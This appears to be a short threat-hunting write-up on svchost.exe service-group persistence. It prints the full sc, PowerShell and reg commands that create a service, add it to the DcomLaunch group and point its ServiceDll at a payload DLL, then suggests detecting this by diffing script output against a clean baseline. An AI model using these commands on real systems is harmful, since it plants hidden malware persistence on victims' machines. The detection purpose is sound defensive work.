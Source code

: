 one of the Persistence tichnique is using SVCHOST injection or abusing to Upload malicouse Service on a Service Group via SVCHOST.exe like this sample :

```
## Hunting in SVCHOST.exe -- Reading about SVCHOST.exe
svchost.exe -k DcomLaunch ## about ServiceGroup HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost and in DcomLaunch is about service group, DcomLuanch is an Example there are another serviceGroup like netsvc
svchost.exe -k -s ## this switch "-s" is direct point to the service there is in DcomLaunch (serviceGroup)


## The attacker Create Service under the SVCHOST.exe, this process has alot false positive logs

-- example the attack signature: 
sc create Test1 binpath="c:\windows\system32\svchost.exe -k Dcomlaunch" start=auto type=share    ### The Attacker add his mal_DLL on DcomLuanch Service Group for his aim  ## Create a service named "Test1"
$svc = Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\'  ### Get the path of the svchost 
$value = $svc.GetValue("DcomLaunch")  ### get the whole services there are in the DcomLaunch Service Group and pull them into the $value
$value  ### until this step the whole of the DcomLaunch Service Group will be showing
$value += "Test1"  ## add this Services into the $value
$value
set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\" "DcomLaunch" $value   ## by this command add Test1 Service into the DcomLaunch
reg add "HKLM\system\currentcontrolset\services\Test1\parameters" /v servicedll /t REG_EXPAND_SZ /d "c:\programedata\dll1.dll" /f   ###HKLM\SYSTEM\CurrentControlSet\Services\Test1 in this sample /v named for type of service /t means type of value /d refferer to our payload
```

If you have CTI Role Base for Hunting this abnormal Behavior on the SVCHOST.exe you must using Powershell script as Base line using these methods:
1. Run "svchost_injection_detect.ps1" on the Clean Install System and take an output for further compare.
2. Run "svchost_injection_detect.ps1" on victim
3. diff between Clean and malincous outputs

In Brifly :
1. Create a service
2. add our services into the ServiceGroup like DcomLunch
3. add our payload into the DcomLunch Service Group name dll1.dll
4. if the victime login to his client our paylaod would be run
